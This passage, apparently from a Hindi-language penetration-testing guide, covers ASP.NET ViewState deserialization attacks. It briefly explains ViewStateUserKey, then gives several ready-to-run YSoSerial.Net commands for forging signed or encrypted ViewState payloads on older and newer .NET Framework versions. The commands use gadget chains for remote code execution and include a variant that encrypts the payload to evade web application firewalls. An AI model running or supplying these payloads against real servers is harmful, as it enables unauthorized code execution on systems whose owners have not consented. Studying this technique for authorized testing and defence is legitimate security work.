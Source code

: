 ASP.NET ViewState में `ViewStateUserKey` property होती है [\[16\]](https://docs.microsoft.com/en-us/previous-versions/dotnet/articles/ms972969\(v=msdn.10\)) जिसका उपयोग cross-site request forgery (CSRF) हमलों [\[4\]](https://www.owasp.org/index.php/Anti\_CSRF\_Tokens\_ASP.NET) के जोखिम को कम करने के लिए किया जा सकता है. **`ViewStateUserKey`** property की मान (जब यह `null` नहीं होती है**) ViewState साइनिंग** प्रक्रिया के दौरान भी उपयोग की जाती है. यह पैरामीटर की मान न जानने से हमारे हमले को रोक सकती है, **इसकी मान अक्सर कुकीज़ या एक छिपी हुई इनपुट** पैरामीटर में पाई जा सकती है ([\[17\]](https://software-security.sans.org/developer-how-to/developer-guide-csrf) में एक लागू उदाहरण दिखाता है).

## ViewState YSoSerial.Net plugins

YSoSerial.Net मास्टर और YSoSerial.Netv2 में आपको एक प्लगइन मिलेगा ([**यह**](https://github.com/pwntester/ysoserial.net/blob/master/ysoserial/Plugins/ViewStatePlugin.cs) और [**यह**](https://github.com/pwntester/ysoserial.net/blob/v2/ysoserial/Plugins/ViewStatePlugin.cs)) जो इस तकनीक का उपयोग करने के लिए जानकारी जब सभी जानकारी उपलब्ध होती है.

### **.NET Framework >= 4.5 के लिए:**
```bash
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo 123 > c:\windows\temp\test.txt" --path="/somepath/testaspx/test.aspx" --apppath="/testaspx/" --decryptionalg="AES" --decryptionkey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" --validationalg="HMACSHA256" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
```
### **.NET Framework <= 4.0 के लिए (पुराना):**

_यहाँ डिक्रिप्शन कुंजी और उसका एल्गोरिदम आवश्यक नहीं हैं:_
```bash
.\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --apppath="/testaspx/" --islegacy --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0" --isdebug
```
_विभिन्न गैजेट का उपयोग करने के अलावा, `__VIEWSTATEGENERATOR` पैरामीटर का उपयोग करके **पथ प्रदान करने की बजाय** यह संभव है:_
```bash
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo 123 > c:\windows\temp\test.txt" --generator=93D20A1B --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
```
_यह डिफ़ॉल्ट रूप से ActivitySurrogateSelector गैजेट का उपयोग करता है जो YSoSerial.Net प्रोजेक्ट में ExploitClass.cs कक्षा को कंपाइल करने की आवश्यकता होती है। ViewState payload को भी **एन्क्रिप्ट किया जा सकता है** **WAFs से बचने के लिए जब decryptionKey मान्यता वाला होता है**:_
```bash
.\ysoserial.exe -p ViewState -c "foo to use ActivitySurrogateSelector" --path="/somepath/testaspx/test.aspx" --apppath="/testaspx/" --islegacy --decryptionalg="AES" --decryptionkey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" --isencrypted --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
```
{% hint style="info" %}
**नोट:** YSoSerial.Net में उपयोग किए गए गैजेट्स की प्रकृति के कारण, लक्षित ASP.NET पेज हमेशा त्रुटि के साथ प्रतिक्रिया करता है, यहां तक कि जब सर्वर-साइड पर सफलतापूर्वक एक शोषण किया जाता है।
{% endhint %}
